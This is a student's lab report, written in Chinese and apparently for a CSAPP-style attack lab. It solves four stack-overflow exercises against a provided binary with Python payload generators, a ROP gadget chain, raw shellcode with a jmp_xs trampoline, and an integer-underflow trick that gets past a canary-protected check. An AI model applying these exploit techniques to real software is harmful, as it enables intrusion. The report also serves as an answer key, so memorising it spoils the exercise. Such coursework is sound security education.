


# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
目标是调用程序中未被显式调用的 func1 函数。通过观察发现，缓冲区分配了 8 个字节，紧接着是 8 个字节的 saved rbp。因此，为了覆盖返回地址，需要填充 8 + 8 = 16 个字节的 Padding，然后将返回地址修改为 func1 的入口地址。
- **解决方案**：
```python
# 目标地址: func1
func1_addr = 0x401216

# 偏移量: buffer(8) + saved_rbp(8) = 16
padding = b'A' * 16

payload = padding + struct.pack('<Q', func1_addr)

with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Problem 1 payload written to ans1.txt")
```
- **结果**：


### Problem 2:
- **分析**：
这题开启了NX保护，说明栈上的数据不可执行，无法直接注入 Shellcode。我想到通过调用 func2 并传递特定参数来实现目的。我在栈上构造一个 Gadget 链：首先跳转到 pop rdi; ret 指令地址，将栈上的参数弹入 %rdi，然后再跳转到 func2 的地址。
- **解决方案**：
```python
# 修正后的 Gadget 地址 (pop rdi; ret)
pop_rdi_ret = 0x4012c7  
func2_addr = 0x401216
arg1_val = 0x3f8

# 偏移量: 16 bytes
padding = b'A' * 16

payload = padding + struct.pack('<Q', pop_rdi_ret) + struct.pack('<Q', arg1_val) + struct.pack('<Q', func2_addr)

with open("ans2.txt", "wb") as f:
    f.write(payload)
print("Problem 2 payload written to ans2.txt")
```
- **结果**：


### Problem 3: 
- **分析**：面对 ASLR 导致的栈地址随机化问题，我通过分析发现辅助函数 jmp_xs (0x401334) 可作为“跳板”：它跳转的目标地址 saved_rsp + 0x10 经计算（即 rbp-0x30 + 0x10）指向缓冲区起始位置 rbp-0x20 。因此，攻击策略是在缓冲区头部植入 Shellcode（实现 func1(114) 调用），并将函数返回地址覆盖为 jmp_xs 的地址
- **解决方案**：
```python
shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0"

# 计算填充: 总长 40 - Shellcode 长度
padding_len = 40 - len(shellcode)
padding = b'A' * padding_len

# 劫持返回地址到 jmp_xs (0x401334)
jmp_xs_addr = 0x401334

payload = shellcode + padding + struct.pack('<Q', jmp_xs_addr)

with open("ans3.txt", "wb") as f:
    f.write(payload)
print("Problem 3 payload written to ans3.txt")
```
- **结果**：


### Problem 4: 
- **分析**：本题开启了Canary保护，传统的覆盖返回地址方法会触发 __stack_chk_fail，导致程序终止。通过分析汇编代码，我发现程序在处理分数时整数溢出漏洞。变量类型为无符号整数，那么当我输入 -1 时，它会被解析为4294967295。这个巨大的数值使我能够绕过程序中的检查，直接进入成功的分支，而无需破坏栈上的 Canary。
- **解决方案**：输入-1
- **结果**：


## 思考与总结
这次实验让我对计算机系统的底层安全机制有了更深刻的认知。事实上在我的网络空间安全导论课程中有类似的知识点与实验，但当时，尤其是对我这样一个转专业的同学来说，栈帧结构相当抽象，当时也稀里糊涂的没这么理解。但这次在计算 Padding 大小中我对其有了更具象化的认识。与此同时，我也认识到安全漏洞的多样性，从物理的缓冲区覆盖到逻辑的数值下溢均可成为突破口（比如task4）

## 参考资料
1. Gemini
2. [知乎] CSAPP | Lab3-Attack Lab 深入解析. https://zhuanlan.zhihu.com/p/476396465
